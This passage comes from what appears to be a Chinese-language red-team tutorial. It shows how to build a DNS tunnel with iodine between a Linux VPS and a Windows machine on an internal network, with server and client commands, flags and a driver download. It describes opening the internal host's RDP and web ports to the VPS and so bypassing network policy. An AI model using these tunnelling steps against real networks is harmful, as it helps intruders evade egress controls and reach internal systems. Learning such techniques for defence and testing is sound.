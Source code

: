 这里服务端使用的是 Linux，服务端命令如下：







```none
sudo iodined -f -c -P teamssix 192.168.77.1 dc.teamssix.com -DD
```







```none
-f		在前台运行
-c		不检查传入请求的客户端 IP 地址
-P		客户端与服务端之间的连接密码
-D		调试级别，-D 表示第一级，-DD 表示第二级，依此类推

192.168.77.1 是自己自定义的局域网虚拟 IP 地址。
```

这里客户端使用的是 Windows，Windows 客户端上除了要有 iodine 相关文件外，还需要安装 tap 网卡驱动程序，这里我百度找了一个下载地址 http://www.qudong51.net/qudong/981.html

打开下载好的 tap 网卡驱动程序，一直下一步下一步安装就行。

然后就可以启动客户端程序了，注意下载下来的 dll 文件要和 exe 在一个目录下，不能只复制一个 exe 到目标主机上，而且要以管理员权限运行下面的命令。







```none
.\iodine.exe -f -r -P teamssix dc.teamssix.com
```







```none
-r		iodine 有时会自动将 DNS 隧道切换成 UDP 通道，使用 -r 命令可以强制让 iodine 在任何情况下都使用 DNS 隧道
```

如果出现 `Connection setup complete, transmitting data.` 就表示 DNS 隧道就已经建立了。

这时如果去 ping 服务端自定义的虚拟 IP 也是可以 ping 通的。



![img](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/Snipaste_2021-06-08_21-12-06.png)



假如这里内网机器分配到了 192.168.77.2 这个 IP ，因为处在一个局域网中，所以 VPS 直接访问 192.168.77.2 的 3389、80 等端口就可以直接访问到内网机器的相关端口了，同样的内网主机也可以访问 VPS 的 22 端口等等，至此便绕过了策略限制。

# 0x10 ew 的使用
